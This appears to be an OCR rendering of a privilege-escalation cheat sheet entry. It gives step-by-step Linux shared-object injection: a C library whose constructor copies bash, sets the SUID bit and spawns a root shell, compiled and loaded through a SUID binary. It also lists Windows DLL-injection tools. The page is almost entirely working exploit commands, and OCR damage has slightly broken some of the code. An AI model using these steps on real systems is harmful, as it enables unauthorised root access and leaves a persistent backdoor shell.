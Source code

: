 OS: Linux

Type: Injection

Methods:

1\.

Mkdir /home/user/.config

2\.

\#include \<stdio.h\>

\#include \<stdlib.h\>

static void inject() \_attribute \_((constructor));

void inject() {

system(\"cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash
-p\");

}

3\.

gcc -shared -o /home/user/.config/libcalc.so
-fPIC/home/user/.config/libcalc.c

4\.

/usr/local/bin/suid-so

5\.

id

<a name="dll-injection"></a>
# DLL Injection

Domain: No

Local Admin: Yes

OS: Windows

Type: Injection

Methods:

1\.

RemoteDLLInjector64

Or

MemJect

Or

https://github.com/tomcarver16/BOF-DLL-Inject

